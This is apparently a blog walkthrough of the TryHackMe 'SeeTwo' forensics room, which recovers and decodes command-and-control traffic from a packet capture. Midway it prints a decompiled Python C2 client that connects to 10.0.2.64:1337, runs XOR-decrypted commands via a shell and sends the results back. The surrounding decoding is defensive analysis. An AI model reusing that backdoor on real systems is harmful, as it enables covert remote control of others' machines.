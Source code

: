 ```yaml
---
title: SeeTwo - TryHackMe - Walkthrough
date: 2024-11-16 10:00:00 +0200
categories: [TryHackMe]
tags: [seetwo,forensics,pyinstxtractor,xor,python,wireshark,c2]
description: TryHackMe network traffic forensics which involves reversing a binary.
image:
  path: /assets/blog/SeeTwo/Room.png
  alt: SeeTwo Room image
---
```


This Room is rated as Medium!
Visit the room here: <https://tryhackme.com/r/room/seetworoom>

## Description

> You are tasked with looking at some suspicious network activity by your digital forensics team.
>
> The server has been taken out of production while you analyze the suspicious behavior.
>
> Click on the Download Task Files button at the top of this task. You will be provided with an evidence.zip file.
> Extract the zip file's contents and begin your analysis in order to answer the questions.
>
> Note: For free users using the AttackBox, the challenge is best done using your own environment. Some browsers may detect the file as malicious. The zip file is safe to download with md5 of ea6f0bf505f87d18c9881de055b63ed3. In general, as a security practice, download the zip and analyze the forensic files on a dedicated virtual machine, and not on your host OS.

So first I downloaded the file.

## How I solved it

I started my initial investigation in Wireshark by inspecting the traffic.

![Wireshark and the first impression](/assets/blog/SeeTwo/Wireshark0.png)

There is a huge amount of http traffic (green packages). If we inspect the protocol hierarchy we see mainly TCP and HTTP. This indicates that there is a huge amount of data send in clear text over HTTP.

![Hierarchy Wireshark](/assets/blog/SeeTwo/Wireshark1.png)

Now let's inspect some data streams of HTTP to find out what is inside them.

![Base64 HTTP package](/assets/blog/SeeTwo/Wireshark2.png)

This looks like `base64`-encoded data, and that's not only for that stream but for multiple data streams. Now let's use [`tshark`](https://www.wireshark.org/docs/man-pages/tshark.html) to extract the base64 from the stream 2 which was the first I discovered. I saved the `base64` response as a file and removed the HTTP headers from the file so I could decode the huge amount of encoded data.

**Why is the stream 2 more interesting to me than the others?** This stream is very huge over 31 megabytes of data, so this likely can be some tool or some exfiltrated data. 

```sh
cat base64-stream2.txt | tr -d '\n' | base64 -d > stream2
```

![](/assets/blog/SeeTwo/Unix0.png)

This is nice the extracted blob of data is a ELF binary, so the next step for me was to open this binary in Ghirda. After some searching where the main function or some equivalent is, I found this piece of code which looks pretty interesting.

![Pyinstaller strings](/assets/blog/SeeTwo/Ghidra0.png)

There is something with `pyinstaller` which catched my eye. If we google pyinstaller we are provided with the following page:

![Google results](/assets/blog/SeeTwo/Google0.png)

This is a executable which makes a python script to one binary. So let's search the internet if there is any decompiler to retrieve the original code. I found this tool <https://github.com/extremecoders-re/pyinstxtractor>, I cloned the GitHub repositry and then this command:
```sh
python pyinstxtractor/pyinstxtractor.py stream2
```

Now I got like all files used for that binary, this is now decompiled to `.pyc` files, which are essentially compiled python scripts:

![](/assets/blog/SeeTwo/files0.png)

The file `client.pyc` looks interesting. I couldn't open it because it's compiled, so I searched for a extractor.
I found another tool `uncompyle6` which let's us do this.

```sh
pip3 install uncompyle6 # if you need to install it
uncompyle6 client.pyc > client.py
```

Wow now we have the source code which we can reverse engineer the messages send in the other `base64` encoded TCP streams:
```python
import socket, base64, subprocess, sys
HOST = "10.0.2.64"
PORT = 1337

def xor_crypt(data, key):
    key_length = len(key)
    encrypted_data = []
    for i, byte in enumerate(data):
        encrypted_byte = byte ^ key[i % key_length]
        encrypted_data.append(encrypted_byte)
    else:
        return bytes(encrypted_data)


with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    while True:
        received_data = s.recv(4096).decode("utf-8")
        encoded_image, encoded_command = received_data.split("AAAAAAAAAA")
        key = "MySup3rXoRKeYForCommandandControl".encode("utf-8")
        decrypted_command = xor_crypt(base64.b64decode(encoded_command.encode("utf-8")), key)
        decrypted_command = decrypted_command.decode("utf-8")
        result = subprocess.check_output(decrypted_command, shell=True).decode("utf-8")
        encrypted_result = xor_crypt(result.encode("utf-8"), key)
        encrypted_result_base64 = base64.b64encode(encrypted_result).decode("utf-8")
        separator = "AAAAAAAAAA"
        send = encoded_image + separator + encrypted_result_base64
        s.sendall(send.encode("utf-8"))
```

Looks like every command of the C2 server. The C2 server connects to a server and executes commands which encrypted by the XOR encryption. The key for the XOR encrypted data is `MySup3rXoRKeYForCommandandControl`. Before the data we send a image which is used to reduce risk of detection, after that we get a separator and the XOR encrypted data. I checked the WireShark traffic and found out that we captured the commands send, the only thing we need to do is to decrypt it. So let's build a reverse tool to get the commands back.

You can use this command to extract the data from TCP stream 3 which most likely is the stream we need to investigate.

```sh
tshark -r capture.pcap -qz follow,tcp,raw,3 | sed '$ d' | tail -n +7 | tr -d ' ' | while IFS= read -r line; do echo "$line" | xxd -r -p;echo ""; done > part1.txt
```

For the second stream of interest I just changed the output file and the stream after the `raw,`, stream 3 and 4 look interesting.

To go further we need to remove the image from the data to extract the commands. I build this nice python script with the help of some python:

```python
import base64


def xor_decrypt(encrypted_data, key):
    key = key.encode("utf-8")
    key_length = len(key)
    encrypted_data = base64.b64decode(encrypted_data.strip())
    decrypted_data = bytearray()
    
    for i, byte in enumerate(encrypted_data):
        decrypted_data.append(byte ^ key[i % key_length])
    
    return decrypted_data.decode("utf-8")

def decrypt_file(input_file, output_file, key):
    with open(input_file, "r") as infile, open(output_file, "w") as outfile:
        for line in infile:
            line = line.split("AAAAAAAAAA")[1]
            try:

                decrypted_text = xor_decrypt(line, key)

                outfile.write(decrypted_text + "\n")
            except Exception as e:
                print(f"Failed to decrypt line: {line.strip()}, Error: {e}")

# Configuration
input_file = "part1.txt"
output_file = "part1_commands.txt"
key = "MySup3rXoRKeYForCommandandControl"

decrypt_file(input_file, output_file, key)

print(f"Decryption complete. Decrypted data saved to {output_file}")
```

After I extracted the command I was able to complete the room.

Here are the extracted commands:

![](/assets/blog/SeeTwo/first.png)

![](/assets/blog/SeeTwo/second.png)

## Conclusion

I really liked the room it involved different techniques and tools and I could learn some new stuff.
